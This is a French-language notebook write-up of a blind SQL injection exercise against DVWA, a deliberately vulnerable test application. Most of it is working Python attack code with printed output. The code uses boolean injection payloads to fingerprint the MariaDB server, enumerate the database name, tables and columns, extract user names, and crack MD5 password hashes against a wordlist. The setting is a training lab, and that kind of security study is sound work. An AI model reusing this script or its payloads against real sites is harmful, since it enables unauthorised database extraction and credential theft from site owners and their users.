



# SQL INJECTION - Blind

Il s'agit d'utiliser la vulnérabilité "sql injection" pour récupérer des données de la base de données. Tout cela, de façon "aveugle".

### I . Contexte 
________________________________________________________________

Nous avons un site présentant de nombreuses vulnérabilités, qui sert d'environnement de tests et d'exploitation de ces vulnérabilités.
Dans cette partie nous exploitons la vulnérabilité de type SQL INJECTION (blind). 
- Sur l'image ci-dessous, nous voyons le retour du serveur quand nous mettons un entier. Le serveur nous répond que l'utilisateur avec l'ID "2" existe dans la base de données et rien d'autre.


- Quand nous mettons une valeur erronée ('coucou' par exemple), le serveur nous répond que l'utilisateur n'existe pas dans la base de données.


- Maintenant lorque nous testons l'injection sql en mettant
  ``` coucou' OR 1=1 -- - ```, le serveur nous répond que l'utilisateur existe dans la base de données. Ce qui est anormal.



### II. Déduction
___
Une vulnérabilité de type SQl INJECTION est présente et le serveur ne fournit que deux réponses : 
- l'utilisateur existe dans la base de données
- l'utilisateur n'existe pas dans la base de données

On se doute donc qu'il y a une condition de retour quelque part dans le traitement côté serveur, qui est mal implémenté. Et c'est ce que nous allons exploiter pour trouver le contenu de la base de données.


### III. Exploitation

```python
import requests

cookies = {
    # Cookies
}

headers = {
    # headers
}

url = "http://sitesVulnerable.pasLeVrai"
```


```python
def send_request_with_wordlist(path_to_wordlist, beginnig_of_sql_request, end_of_sql_request):
    info_found = []
    wordlist = open(path_to_wordlist, 'r')
    lines = wordlist.readlines()
    for line in lines:
        id_param = beginnig_of_sql_request  + line.strip() + end_of_sql_request
        params = {
            'id': id_param,
            'Submit': 'Submit'
        }
        response = requests.get(url,params=params,cookies=cookies,headers=headers)
        if response.status_code == 200:
            print("[FOUND] = ", line.strip())
            info_found.append(line.strip())
    
    return info_found
```

<h1>1.Info de la BD</h1>

Nous allons chercher quelle base de données nous avons affaire : Mysql, PostgreSQL, Oracle, MariaDB, etc. Pour cela nous allons créer une wordlist de BD SQL les plus utilisées. 
Utilisons la variable <i style="color :#0F0">@@version</i> ou <i style="color :#0F0">version()</i> pour trouver cette info de la BD.


```python
paramID = "' or LOWER(@@version) LIKE '%"
shorlist = "wordlist/infoDB.txt"

info_DB = send_request_with_wordlist(shorlist, paramID, "%' -- -")
info_DB
```

    [FOUND] =  db
    [FOUND] =  maria
    [FOUND] =  mariadb


    ['db', 'maria', 'mariadb']


Nous savons maintenant qu'il s'agit d'une BD mariaDB.

<h1>2. Nom de la BD</h1>

### 2.1 Cherchons d'abord les lettres qui commposent la base de données qui est interrogée


```python
alphabet = "wordlist/alphabet_num.txt"
sql_start = "' or DATABASE() LIKE  '%"
sql_end = "%' -- -"
letters_in_db_name = []
letters_in_db_name = send_request_with_wordlist(alphabet, sql_start, sql_end)


print("Caractères qui composent le nom de la BD : ", "".join(str(i) for i in letters_in_db_name))
```

    [FOUND] =  a
    [FOUND] =  d
    [FOUND] =  v
    [FOUND] =  w
    Caractères qui composent le nom de la BD :  advw


### 2.2 Cherchons les permutations de ces lettres


```python
from itertools import permutations

chaine = "".join(str(i) for i in letters_in_db_name)
# Fonction pour trouver les permutations d'une chaîne de caractères
def trouver_permutations(chaine):
    resultat = permutations(chaine)
    permutations_liste = [''.join(perm) for perm in resultat]
    return permutations_liste

permutations_chaine = trouver_permutations(chaine)
print(permutations_chaine)
```

    ['advw', 'adwv', 'avdw', 'avwd', 'awdv', 'awvd', 'davw', 'dawv', 'dvaw', 'dvwa', 'dwav', 'dwva', 'vadw', 'vawd', 'vdaw', 'vdwa', 'vwad', 'vwda', 'wadv', 'wavd', 'wdav', 'wdva', 'wvad', 'wvda']


### 2.3 Trouvons le vrai nom de la BD


```python
db_name = ""
id_param = "' or DATABASE() LIKE  '"

for elem in permutations_chaine:
    params = {
        'id': id_param+elem+"' -- -",
        'Submit': 'Submit', 
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        db_name = elem
        break #on arrête la boucle dès qu'on trouve le nom

print("Le nom de la BD interrogée est : "+db_name)
```

    Le nom de la BD interrogée est : dvwa


<h1>3. Tables de la BD DVWA</h1>

Pour trouver les tables de la BD 'dvwa', nous allons utiliser une wordlist des noms de tables les plus communs.
La wordlist a été téléchargée de puis  ==> https://github.com/drtychai/wordlists/blob/master/sqlmap/common-outputs.txt


```python
tables_wordlist = open('wordlist/tables.txt', 'r')
Lines = tables_wordlist.readlines()
tables_found = []

wordlist_of_tables = "wordlist/tables.txt"
sql_start = "' or EXISTS ( SELECT 1 FROM information_schema.tables WHERE table_schema = '"+ db_name +"' AND table_name LIKE '"
sql_end = "') -- -"
tables_found = send_request_with_wordlist(wordlist_of_tables, sql_start, sql_end)
tables_found
```

    [FOUND] =  users
    [FOUND] =  User_
    [FOUND] =  Users
    [FOUND] =  guestbook


    ['users', 'User_', 'Users', 'guestbook']


## 4. Colonnes de la table "users"

Pour trouver les colonnes de la table 'users', nous allons utiliser une wordlist des noms de colonnes les plus communs.
La wordlist a été téléchargée de puis  ==> https://github.com/drtychai/wordlists/blob/master/sqlmap/common-columns.txt


```python
columns_found = []
wordlist_of_columns = "wordlist/colonnes.txt"
sql_start = "' OR EXISTS (SELECT 1 FROM information_schema.columns WHERE table_schema = 'dvwa'  AND table_name = 'users' AND column_name = '"
sql_end = "') -- -"
columns_found = send_request_with_wordlist(wordlist_of_columns, sql_start, sql_end)

print("les colonnes trouvées dans la table users sont : ")
print(columns_found)
```

    [FOUND] =  user_id
    [FOUND] =  first_name
    [FOUND] =  last_name
    [FOUND] =  password
    [FOUND] =  user
    [FOUND] =  last_login
    [FOUND] =  user_id
    [FOUND] =  password
    [FOUND] =  user
    [FOUND] =  avatar
    les colonnes trouvées dans la table users sont : 
    ['user_id', 'first_name', 'last_name', 'password', 'user', 'last_login', 'user_id', 'password', 'user', 'avatar']


```python
list_columns_found = list(set(columns_found))
print("Liste des colonnes trouvées : ")
print(list_columns_found)
```

    Liste des colonnes trouvées : 
    ['user', 'user_id', 'password', 'last_login', 'first_name', 'last_name', 'avatar']


## 5. Enregistrement de la table users


```python
line_count = 0
for i in range(0, 100): 
    id_param = "' OR "+str(i)+ " IN (SELECT COUNT(*) FROM users)  -- -"
    params = {
        'id': id_param,
        'Submit': 'Submit',
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        line_count = i
        break
print("Nombre d'enregistrements de la table users = ", line_count)
```

    Nombre d'enregistrements de la table users =  5


#### 5.1 Faisons sortir les first_name de la table users


```python
wordlist_first_name = "wordlist/username.txt"
sql_start = "' OR '"
sql_end = "' IN (SELECT first_name FROM users) -- -"

list_of_first_name = send_request_with_wordlist(wordlist_first_name, sql_start, sql_end)
print(list_of_first_name)
```

    [FOUND] =  admin
    [FOUND] =  Pablo
    [FOUND] =  Gordon
    [FOUND] =  hack
    [FOUND] =  bob
    ['admin', 'Pablo', 'Gordon', 'hack', 'bob']


#### 5.2 last_name de la table users


```python
wordlist_last_name = "wordlist/username.txt"
sql_start = "' OR '"
sql_end = "' IN (SELECT last_name FROM users) -- -"

list_of_last_name = send_request_with_wordlist(wordlist_last_name, sql_start, sql_end)
print(list_of_last_name)
```

    [FOUND] =  admin
    [FOUND] =  brown
    [FOUND] =  smith
    [FOUND] =  picasso
    [FOUND] =  me
    ['admin', 'brown', 'smith', 'picasso', 'me']


#### 5.3 Info de la Colonne user


```python
wordlist_user = "wordlist/username.txt"
sql_start = "' OR '"
sql_end = "' IN (SELECT user FROM users) -- -"

list_of_user = send_request_with_wordlist(wordlist_user, sql_start, sql_end)
print(list_of_user)
```

    [FOUND] =  admin
    [FOUND] =  Pablo
    ['admin', 'Pablo']


#### 5.4 Info de la colonne password

##### 5.4.1 Essayons de voir si les mots de passe sont hashés ou non.
Pour cela nous allons vérifier la taille des mots de passe. Si tous les mots de passe ont la même taille, alors ils sont hashés.


```python
for i in range(0, 100): 
    id_param = "' OR "+str(i)+ " IN (SELECT LENGTH(password) FROM users)  -- -"
    params = {
        'id': id_param,
        'Submit': 'Submit',
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        print("[PASSWORD.LENGTH.FOUND] = ", i)
```

    [PASSWORD.LENGTH.FOUND] =  32


Tous les mots de passe semblent avoir la même taille : 32. Donc on peut en déduire qu'ils sont hashés.

Et 32 nous fait pensé à MD5. Donc "brute force"

##### 5.4.2 Essayons de casser les mots de passe avec une wordlist ./wordlist/passwords.txt


```python
import hashlib

def hash_md5(chaine):
    chaine_bytes = chaine.encode('utf-8')
    
    h = hashlib.md5()
    h.update(chaine_bytes)
    hash_md5 = h.hexdigest()
    
    return hash_md5
```


```python
passwords_found = []
wordlist_password = open("wordlist/password.txt", 'r')
Lines = wordlist_password.readlines()
sql_start = "' OR '"
sql_end ="' IN (SELECT password FROM users ) -- -"


for line in Lines:
    string_hashed = hash_md5(line.strip())
    id_param = sql_start  + string_hashed + sql_end
    params = {
        'id': id_param,
        'Submit': 'Submit'
    }
    response = requests.get(url,params=params,cookies=cookies,headers=headers)
    if response.status_code == 200:
        print("[PASSWORD.FOUND] = ", line.strip())
        passwords_found.append(line.strip())

passwords_found
```

    [PASSWORD.FOUND] =  password
    [PASSWORD.FOUND] =  abc123
    [PASSWORD.FOUND] =  letmein
    [PASSWORD.FOUND] =  charley


    ['password', 'abc123', 'letmein', 'charley']


```python
print(" ---------- Infos de la BD --------- " )
print("Nom de la BD : ", db_name)
print("Tables de la BD :", tables_found)

print("\n")
print(" ---------- Les infos de la table users récupérées --------- " )
print("first_name :\t", list_of_first_name)
print("last_name :\t", list_of_last_name)
print("user :\t\t", list_of_user)
print("password :\t", passwords_found)

```

     ---------- Infos de la BD --------- 
    Nom de la BD :  dvwa
    Tables de la BD : ['users', 'User_', 'Users', 'guestbook']
    
    
     ---------- Les infos de la table users récupérées --------- 
    first_name :	 ['admin', 'Pablo', 'Gordon', 'hack', 'bob']
    last_name :	 ['admin', 'brown', 'smith', 'picasso', 'me']
    user :		 ['admin', 'Pablo']
    password :	 ['password', 'abc123', 'letmein', 'charley']


